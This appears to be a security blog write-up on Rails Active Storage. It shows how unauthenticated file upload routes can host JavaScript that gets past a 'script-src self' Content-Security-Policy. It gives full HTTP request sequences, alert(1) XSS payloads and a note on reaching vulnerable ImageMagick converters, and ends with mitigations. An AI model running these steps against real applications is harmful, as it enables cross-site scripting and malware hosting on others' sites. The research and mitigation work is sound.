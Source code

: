 ```yaml
---
layout: post
title: "Rails & Active Storage"
summary: "Unauthenticated file upload & possible CSP bypass"
date:   2025-06-30 18:30:00 -0400
categories: Web 
---
```


# Using Rails' Active Storage And Bypass CSP

> TLDR: ActiveStorage from Rails allows unauthenticated file uploads. It cannot be used directly for XSS, but can be used to bypass CSP (or to host malware).

Active Storage is a built-in feature in Rails that allows users to upload files. It is often used to attach profile pictures to a user. Developers can configure where files are stored. Those can be on the disk, on S3 buckets, Google Cloud Storage, etc. Files can also be transformed using `ffmpeg`, `muPDF` , `ImageMagick` and some other tools.

When enabled, this feature is accessible, by default, to unauthenticated users. They can upload any files to the app and download them. They can even reach endpoints that transform files into other formats! This would allow an attacker to abuse a vulnerable version of `ImageMagick` and potentially gain RCE.

To mitigate the risks of XSS, files are returned by the server alongside the HTTP header `Content-Disposition: attachment`for most filetypes. This header tells the browser to download the file instead of rendering it directly. So, instead of having your `alert(1)`, your browser would ask you to download the file.

A couple of security considerations also exist:

- Filenames are sanitized [here](https://github.com/rails/rails/blob/main/activestorage/app/models/active_storage/filename.rb#L59,L61), which helps prevent injections (RCE, headers):
  
  ```rb
    def sanitized
      @filename.encode(Encoding::UTF_8, invalid: :replace, undef: :replace, replace: "�").strip.tr("\u{202E}%$|:;/<>?*\"\t\r\n\\", "-")
    end
  ```
  
- Content-types are validated against a list. Only [these](https://github.com/rails/rails/blob/main/activestorage/lib/active_storage/engine.rb#L65-L76) can be inlined:
  
  ```rb
    config.active_storage.content_types_allowed_inline = %w(
      image/webp
      image/avif
      image/png
      image/gif
      image/jpeg
      image/tiff
      image/bmp
      image/vnd.adobe.photoshop
      image/vnd.microsoft.icon
      application/pdf
    )
  ```

  As far as I know, none of these can be used for XSS.
 
 - There might be anti CSRF, we'd need a token first.

## CSP Bypass

If there's a CSP similar to `Content-Security-Policy: script-src 'self';`, this would prevent any payload like `<script>alert(1)</script>` and `<svg onload=alert(1)>`. By uploading a JavaScript file using Active Storage, it allows an attacker to bypass this restriction. Even when files have the `Content-Disposition: attachment` header, the browser will happily load and execute JavaScript if we use the `<script src>` like so: `<script src="//example.com/test.js"></script>`.

## Technical Details

The following details assume the configuration allows users to upload files on the disk directly. This is just for simplicity; similar payloads would work if the application is using S3 or other cloud providers.

Configuring Active Storage is pretty straightforward and you can follow the official doc [here](https://guides.rubyonrails.org/active_storage_overview.html).

### Exposed Routes

All accessible routes are defined in this [routes.rb](https://github.com/rails/rails/blob/main/activestorage/config/routes.rb) file. Here is more information on the relevant ones in our case. They can be accessed via `example.com/rails/active_storage/*`. All routes are implemented in `activestorage/app/controllers/active_storage/*.rb`.

```rb
post "/direct_uploads" # Allows us to create an "empty file"
put  "/disk/:encoded_token" # Allows us to upload the file content
get "/blobs/proxy/:signed_id/*filename" # Allows us to see the file
```

### Create The File

```
POST /rails/active_storage/direct_uploads HTTP/1.1
Host: localhost:3000
Content-type: application/json
Content-Length: 145

{ "blob":{ "filename":"test.js", "byte_size":"460", "checksum":"sfeC7XeVlcORGXQTjSHrcw==", "content_type":"text/javascript", "metadata": {} } }
```

The server should respond with a blob of JSON containing all the info we need.

```json
{
  "id": 63,
  "key": "sduznqminzw7q2qnnfaekukgfcam",
  "filename": "test.js",
  "content_type": "text/javascript",
  "metadata": {},
  "service_name": "local",
  "byte_size": 8,
  "checksum": "I46W1bYqGuw3OXMEafJxkg==",
  "created_at": "2025-04-23T23:35:38.274Z",
  "attachable_sgid": "eyJfcmFpbHMiOnsiZGF0YSI6ImdpZDovL3Byb3h5LXhzcy9BY3RpdmVTdG9yYWdlOjpCbG9iLzYzP2V4cGlyZXNfaW4iLCJwdXIiOiJhdHRhY2hhYmxlIn19--96b3263fa7716e9cd776a927e6669e80ce2ede68",
  "signed_id": "eyJfcmFpbHMiOnsiZGF0YSI6NjMsInB1ciI6ImJsb2JfaWQifX0=--5ced2e88192089617d33f635398bb4a7595ba198",
  "direct_upload": {
    "url": "http://localhost:3000/rails/active_storage/disk/eyJfcmFpbHMiOnsiZGF0YSI6eyJrZXkiOiJzZHV6bnFtaW56dzdxMnFubmZhZWt1a2dmY2FtIiwiY29udGVudF90eXBlIjoidGV4dC9qYXZhc2NyaXB0IiwiY29udGVudF9sZW5ndGgiOjgsImNoZWNrc3VtIjoiSTQ2VzFiWXFHdXczT1hNRWFmSnhrZz09Iiwic2VydmljZV9uYW1lIjoibG9jYWwifSwiZXhwIjoiMjAyNS0wNC0yM1QyMzo0MDozOC4yOTlaIiwicHVyIjoiYmxvYl90b2tlbiJ9fQ==--30cd81cba0dc75cb2505313ce2bd4d67c57566cd",
    "headers": {
      "Content-Type": "text/javascript"
    }
  }
}
```

### Add Content To the File

We need to take the `url` from the JSON above and add our content:

```
PUT /rails/active_storage/disk/eyJfcmFpbHMiOnsiZGF0YSI6eyJrZXkiOiJzZHV6bnFtaW56dzdxMnFubmZhZWt1a2dmY2FtIiwiY29udGVudF90eXBlIjoidGV4dC9qYXZhc2NyaXB0IiwiY29udGVudF9sZW5ndGgiOjgsImNoZWNrc3VtIjoiSTQ2VzFiWXFHdXczT1hNRWFmSnhrZz09Iiwic2VydmljZV9uYW1lIjoibG9jYWwifSwiZXhwIjoiMjAyNS0wNC0yM1QyMzo0MDozOC4yOTlaIiwicHVyIjoiYmxvYl90b2tlbiJ9fQ==--30cd81cba0dc75cb2505313ce2bd4d67c57566cd HTTP/1.1
Host: localhost:3000
Content-type: text/javascript
Content-Length: 8

alert(1)
```

### Retrieve The File

Just take the `signed_id` and add it to the `/blobs/proxy` URL.
```
GET /rails/active_storage/blobs/proxy/eyJfcmFpbHMiOnsiZGF0YSI6NjMsInB1ciI6ImJsb2JfaWQifX0=--5ced2e88192089617d33f635398bb4a7595ba198/test.js HTTP/1.1
```

Or, `<script src="http://localhost:3000/rails/active_storage/blobs/proxy/eyJfcmFpbHMiOnsiZGF0YSI6NjMsInB1ciI6ImJsb2JfaWQifX0=--5ced2e88192089617d33f635398bb4a7595ba198/test.js"></script>`

And you should get your `alert(1)`.

### Transformations

A couple of endpoints allow conversion of PDF/Videos to PNG. They begin with `/representations`:

```rb
get "/representations/redirect/:signed_blob_id/:variation_key/*filename"
get "/representations/proxy/:signed_blob_id/:variation_key/*filename"
get "/representations/:signed_blob_id/:variation_key/*filename"
```

They all seem secure, meaning we don't have control over the arguments being passed to the converters, nor do we have control over the filename. If there's a known vulnerability in one of the converters (not that ImageMagick is known for having vulnerabilities, but...), this might allow us to trigger it.

## Mitigations
There are a couple of mitigations possible:
- Keep patching and having up-to-date rails and converters
- Restrict the transformations/previewers with `config.active_storage.analyzers` and `config.active_storage.previewers`
- Do not expose the routes by setting `config.active_storage.draw_routes` to false
- Run a task to delete unattached files with `purge_unattached`. Reference [here](https://guides.rubyonrails.org/active_storage_overview.html#purging-unattached-uploads)
- Use a subdomain to host files
- Run scanners against file when they are uploaded with `after_create`

